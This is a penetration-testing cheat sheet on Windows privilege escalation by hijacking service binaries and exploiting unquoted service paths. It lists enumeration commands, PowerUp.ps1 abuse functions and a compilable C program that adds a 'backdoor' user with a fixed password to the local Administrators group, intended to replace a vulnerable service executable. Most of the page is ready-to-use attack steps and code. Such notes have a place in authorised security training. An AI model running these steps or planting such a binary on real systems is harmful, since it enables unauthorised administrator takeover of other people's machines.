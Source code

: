 # Services Hijacking

## Service Binary Hijacking - Manually

Each Windows service has an associated binary file. These binary files are executed when the service is started or transitioned into a running state. As a result, a lower-privileged user could replace the program with a malicious one.&#x20;

To execute the replaced binary, the user can restart the service or, in case the service is configured to start automatically, reboot the machine. Once the service is restarted, the malicious binary will be executed with the privileges of the service, such as LocalSystem.

To get a list of all installed Windows services: `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`

To get the permissions of a specific binary: `icacls "C:\xampp\apache\bin\httpd.exe"`

We typically want to have the `Full Access (F)` permission, allowing us to write to and modify the binary and therefore, replace it. The permission must be set to our users, everyone, or similar.

If you have full access or write permissions, you can replace the service binary and then use

`net stop servicename` followed by `net start servicename`

if that doesn't work, check the start mode of the service using:\
`Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}`

if it is set to`Auto` then you will need to restart the computer using: `shutdown /r /t 0`

{% hint style="warning" %}
Notice that using  `net stop servicename` followed by `net start servicename`\
will most probably print an error message after the start command, even if the exploitation was successful. \
\
The reason is that, basically, the start command starts the hijacked binary, meaning that its code will be executed rather than the original service's code, which is why the service effectively fails to start.
{% endhint %}

***

### Service Binary Hijacking - Using PowerUp

After we import `PowerUp.ps1`, we can use `Get-ModifiableServiceFile`.\
This function displays services the current user can modify, such as the service binary or configuration files.

PowerUp also provides us an `AbuseFunction`, which is a built-in function to replace the binary and, if we have sufficient permissions, restart it. The default behaviour is to create a new local user called `john` with the password `Password123!` and add it to the local `Administrators` group.&#x20;

* To check the service related to a specific binary:
  * `Import-Module .\PowerUp.ps1`
  * `echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Litera`
* Invoke all PowerUp checks:
  * `Import-Module .\PowerUp.ps1`
  * `Invoke-AllChecks`
* Invoke the AbuseFunction on a specific service binary:
  * `Import-Module .\PowerUp.ps1`
  * `Invoke-ServiceAbuse -Name 'ServiceName'`

***

### C code snippet to replace the vulnerable executable

{% hint style="success" %}
You can use and compile the following C code snippet to replace vulnerable service binaries.
{% endhint %}

```

#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user backdoor backdoor123 /add");
  i = system ("net localgroup administrators backdoor /add");
  
  return 0;
}

//compile on kali using x86_64-w64-mingw32-gcc adduser.c -o binaryfilename.exe

```

***

## Unquoted Service Paths

When a service is installed, the registry configuration specifies a path to the binary that should be executed on service start. If the binary is `not encapsulated within quotes`, Windows will attempt to locate the binary in **different folders**.

For example, is the service binary path is\
`C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe`

Then Windows will attempt to run the following executables:

* `C:\Program.exe\`
* `C:\Program Files (x86)\System.exe`
* and so on...

In these cases, you can put a malicious executable in these directories to escalate privileges

***

### Enumeration & Exploitation

Using wmic:

* `wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """`

Using PowerUp.ps1:

* `Import-Module .\PowerUp.ps1`
* `Get-UnquotedService`

In order to exploit and subvert the original unquoted service call, we must create a malicious executable, place it in a directory that corresponds to one of the interpreted paths, and match its name to the interpreted filename.

Then, once the service is started, our file gets executed with the same privileges that the service starts with. Often, this happens to be the LocalSystem account, which results in a successful privilege escalation attack.

Supposing you have found the following unquoted service path:\
`C:\Program Files\My Program\My service\service.exe`

Use `icacls c:\`, then `C:\Program Files\` and so on until you have `(W) permissions on a folder` then `copy the malicious file with the target binary's name` and restart the service using `Stop-Service ServiceName`and `Start-Service ServiceName`

You can also that automatically using `PowerUp.ps1`:

1. `Import-Module .\PowerUp.ps1`
2. `Write-ServiceBinary -Name 'ServiceName' -Path "C:\path\to\example.exe"`
3. `Restart-Service ServiceName`
